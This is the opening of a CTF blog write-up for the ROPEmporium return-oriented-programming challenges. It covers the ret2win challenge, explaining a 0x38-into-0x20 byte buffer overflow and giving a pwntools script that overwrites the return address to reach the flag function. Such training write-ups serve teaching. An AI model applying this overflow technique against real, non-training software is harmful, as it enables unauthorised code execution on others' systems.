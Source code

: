 ```yaml
---
layout: post
title:  "ROPEmporium Writeups"
date:   2023-08-17 15:50:00 -0400
categories: ctf
excerpt: Writeups and solve scripts for all ROPEmporium challenges
---
```



## Overview

ROPEmporium is a series of eight challenges designed to teach the basics of return-oriented programming. The challenge binaries are available in several different architectures, but this writeup will look only at the x86_64 version.

The challenge binaries and instructions are available [here](https://ropemporium.com/).

## ret2win

In order to read the flag, we need to call the function `ret2win`:

![](/assets/images/ropemporium/ret2win.png)

Fortunately, we are provided with a vulnerable function. This function allows us to read 0x38 bytes into a buffer of size 0x20, allowing us to overflow the buffer and overwrite the return address.

![](/assets/images/ropemporium/ret2win_pwnme.png)

We can write 40 bytes to fill the buffer, then overwrite the return address with the address of `ret2win`.

```python
from pwn import *

chal = process("./ret2win")
send_str = b'a'*40 + p64(0x40075a)

print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```
